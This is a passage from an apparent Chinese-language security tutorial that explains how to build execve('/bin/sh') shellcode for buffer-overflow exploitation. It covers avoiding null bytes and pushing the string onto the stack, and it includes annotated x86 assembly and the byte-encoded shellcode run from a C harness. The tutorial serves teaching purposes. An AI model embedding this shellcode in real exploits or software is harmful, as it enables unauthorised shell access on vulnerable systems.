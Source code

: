 ```c
#include <stdio.h>
int main( ) { 
    char *name[2];
    name[0] = "/bin/sh"; 
    name[1] = NULL; 
    execve(name[0], name, NULL);
}
```

在我们将上面的程序编译为二进制代码之后，我们可以在缓冲区溢出工集中，直接使用二进制代码作为 Shellcode 嘛？事情并不是那么容易。如果我们直接使用上面的代码，就会有几个问题：

+   首先，为了调用系统调用`execve`，我们需要知道`/bin/sh`的地址。字符串保存在哪里，以及如何获取字符串位置，并不是复杂的问题。

+   其次，代码中有一些空字符。这会使`strcpy`停止，如果漏洞由`strcpy`导致，我们就会有问题。

为了解决第一个问题，我们可以将字符串`/bin/sh`压入栈中，之后使用栈指针`esp`获取字符串位置。为了解决第二个问题，我们可以将包含 0 的指令转换为另一条不包含 0 的指令，例如，为了将 0 储存到寄存器中，我们可以使用 XOR 指令，而不是直接将寄存器赋为 0。下面是个用汇编语言编写的 Shellcode 的例子：

```asm
Line 1: xorl %eax,%eax 
Line 2: pushl %eax        # push 0 into stack (end of string) 
Line 3: pushl $0x68732f2f # push "//sh" into stack 
Line 4: pushl $0x6e69622f # push "/bin" into stack 
Line 5: movl %esp,%ebx    # %ebx = name[0] 
Line 6: pushl %eax        # name[1] 
Line 7: pushl %ebx        # name[0] 
Line 8: movl %esp,%ecx    # %ecx = name 
Line 9: cdq               # %edx = 0 
Line 10: movb $0x0b,%al 
Line 11: int $0x80        # invoke execve(name[0], name, 0)
```

Shellcode 中的一些地方需要注意：

+   首先，第三条指令将`/sh`压入到栈中。这是因为我们需要一个 32 位数值，`/sh`只有 24 位，幸运的是，`//`等价于`/`，所以我们可以使用两个斜杠字符。

+   其次，在调用`execve`系统调用之前，我们需要将`name[0]`（字符串地址），`name`（数组地址），以及`NULL`储存到`%ebx`、`%ecx`以及`%edx`寄存器。

    +   第五行将`name[0]`储存到`%ebx。
    +   第八行将`name`储存到`%ecx`。
    +   第九行将`%edx`设为 0。有其他将它设为 0 的办法（例如`xorl %edx, %edx`）。这里使用的`cdq`是个简单的指令，将 EAX 最高位（第 31 位）复制到 EDX 寄存器的每一位，也就是将`%edx`设为 0。
    
+   再者，`execve`系统调用在我们将`%al`设为 11 并执行`int $0x80`时调用。

如果我们将上面的代码转换为二进制，并将其储存在数组中，我们就行可以在 C 程序中调用：

```c
#include <stdlib.h> 
#include <stdio.h>

const char code[] = 
    "\x31\xc0" /* Line 1: xorl %eax,%eax */ 
    "\x50" /* Line 2: pushl %eax */ 
    "\x68""//sh" /* Line 3: pushl $0x68732f2f */ 
    "\x68""/bin" /* Line 4: pushl $0x6e69622f */ 
    "\x89\xe3" /* Line 5: movl %esp,%ebx */ 
    "\x50" /* Line 6: pushl %eax */ 
    "\x53" /* Line 7: pushl %ebx */ 
    "\x89\xe1" /* Line 8: movl %esp,%ecx */ 
    "\x99" /* Line 9: cdq */ 
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */ 
    "\xcd\x80" /* Line 11: int $0x80 */ ;

int main(int argc, char **argv) { 
    char buf[sizeof(code)]; 
    strcpy(buf, code); 
    ((void(*)( ))buf)( ); 
}
```